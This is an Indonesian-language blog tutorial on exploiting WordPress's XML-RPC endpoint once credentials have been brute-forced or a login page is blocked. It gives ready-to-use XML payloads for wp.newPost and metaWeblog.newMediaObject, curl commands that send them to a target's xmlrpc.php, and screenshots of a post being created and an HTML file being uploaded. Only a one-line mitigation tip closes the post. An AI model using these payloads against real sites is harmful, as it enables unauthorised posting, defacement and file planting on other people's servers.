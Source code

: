 ```yaml
---
layout: post
title: "Exploiting XML-RPC API pada WordPress"
image: "https://1.bp.blogspot.com/-WpYnpcfB0yE/YK60vej5LxI/AAAAAAAAAx4/7JctMR21Io8Q_Lnpxxkw3YAU6atD-u0ZQCLcBGAsYHQ/s720/thumbnail.png"
tags: tutorial, exploit, hacking
category: exploit
description: Vulnerability pada XML-RPC bukan hanya BruteForce saja...
comments: true
fullview: false
---
```

<!-- excerpt-start --><img src="https://1.bp.blogspot.com/-WpYnpcfB0yE/YK60vej5LxI/AAAAAAAAAx4/7JctMR21Io8Q_Lnpxxkw3YAU6atD-u0ZQCLcBGAsYHQ/s720/thumbnail.png"></img><br><br>
Vulnerability pada XMLRPC / tahap setelah BruteForce / alternatif jika gagal login ke /wp-admin/ (403/404/500)


     1. Add Post (Menambahkan Postingan)
Menambahkan Postingan Baru Dengan POST XMLRPC:

Buka terminal linux (kali/ubuntu/termux/dll..)

Masukan command: nano addpost.xml

Lalu isikan dengan exploit berikut: 



<textarea style="background-color:black;color:lime;" rows="10" cols="45" readonly>&lt;?xml version=&quot;1.0&quot;?&gt; &lt;methodCall&gt;
&lt;methodName&gt;wp.newPost&lt;/methodName&gt; &lt;params&gt;
        &lt;param&gt;&lt;value&gt;parameter&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuser&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuserpassword&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;struct&gt;
                &lt;member&gt;&lt;name&gt;post_title&lt;/name&gt;&lt;value&gt;Exploit To Add Post with XML-RPC&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;post_content&lt;/name&gt;&lt;value&gt;Seems Like The Site Was Vulnerable!&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;post_excerpt&lt;/name&gt;&lt;value&gt;excerpt&lt;/value&gt;&lt;/member&gt;
        &lt;/struct&gt;&lt;/param&gt; &lt;/params&gt;</textarea>
 Saatnya mengexploit!

Masukan command: 

curl http://vulnsite.com/xmlrpc.php --data @addpost.xml

Jika sukses akan tampil seperti ini:

<img src="https://1.bp.blogspot.com/-3_VxUe-b2hI/YK6ws0-YhhI/AAAAAAAAAxY/Gse9CgoAhNoQxqs4a8pVU89yi1yZTzI8QCLcBGAsYHQ/s720/xmlrpc1.png"></img>

Angka 6 adalah id postnya

Cara melihat postingannya dengan menambahkan ?p=idpostingan 

Contoh: http://vulnsite.com/?p=6

<img src="https://1.bp.blogspot.com/-6xYsoswPrT4/YK6xZ3-brfI/AAAAAAAAAxg/oNfoSh3dcuw1X5kMnbbdv7pSJbtQhiFtQCLcBGAsYHQ/s1280/Screenshot_20210527-030808.jpg"></img>

Post Sukses Dibuat.



     2. Add Media/File (Menambahkan Media/File)


Menambahkan Media atau File Baru Dengan POST XMLRPC:

Buka terminal linux (kali/ubuntu/termux/dll..)

Masukan command: nano addfile.xml

Lalu isikan dengan exploit berikut: 



<textarea style="background-color:black;color:lime;" rows="10" cols="45" readonly>&lt;?xml version="1.0"?&gt; &lt;methodCall&gt;
&lt;methodName&gt;metaWeblog.newMediaObject&lt;/methodName&gt; &lt;params&gt;
        &lt;param&gt;&lt;value&gt;parameter&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuser&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuserpassword&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;struct&gt;
                &lt;member&gt;&lt;name&gt;name&lt;/name&gt;&lt;value&gt;touched.html&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;type&lt;/name&gt;&lt;value&gt;text/plain&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;bits&lt;/name&gt;&lt;value&gt;
                &lt;![CDATA[&lt;h1&gt;&lt;center&gt;File Uploaded Success&lt;br/&gt;XML-RPC add file exploit&lt;/center&gt;&lt;/h1&gt;]]&gt;
&lt;/value&gt;&lt;/member&gt;
        &lt;/struct&gt;&lt;/param&gt; &lt;/params&gt;
&lt;/methodCall&gt;</textarea>


Exploit!

Masukan command: 

curl http://vulnsite.com/xmlrpc.php --data @addfile.xml

Jika sukses akan tampil seperti ini:

<img src="https://1.bp.blogspot.com/-74YKRVD53CY/YK6zLpjtssI/AAAAAAAAAxo/U2fWlh3r3_wVvQBgRZYNgXWesfOAgH5tgCLcBGAsYHQ/s720/xmlrpc2.png"></img>

File sukses disimpan sesuai dengan nama yg telah ditentukan, di sini saya namakan filenya touched.html

Cara melihat hasil file yg tersimpan:

http://vulnsite.com/wp-content/uploads/2021(tahun saat upload)/05(bulan saat upload/namafile.html

Mari kita cek!:

<img src="https://1.bp.blogspot.com/-MjLsBrWYg8s/YK60B9YBacI/AAAAAAAAAxw/eBxv4TcpIJM0YRAfG8MzRjOIYflWOZfYwCLcBGAsYHQ/s1280/Screenshot_20210527-031736.jpg"></img>

File sukses terupload!



Cara mencegah exploit ini adalah dengan menginstall plugin bernama "Disable XML-RPC" lalu aktifkan, dan xmlrpc akan aman.



Sekian dari saya, semoga berguna dan bermanfaat!



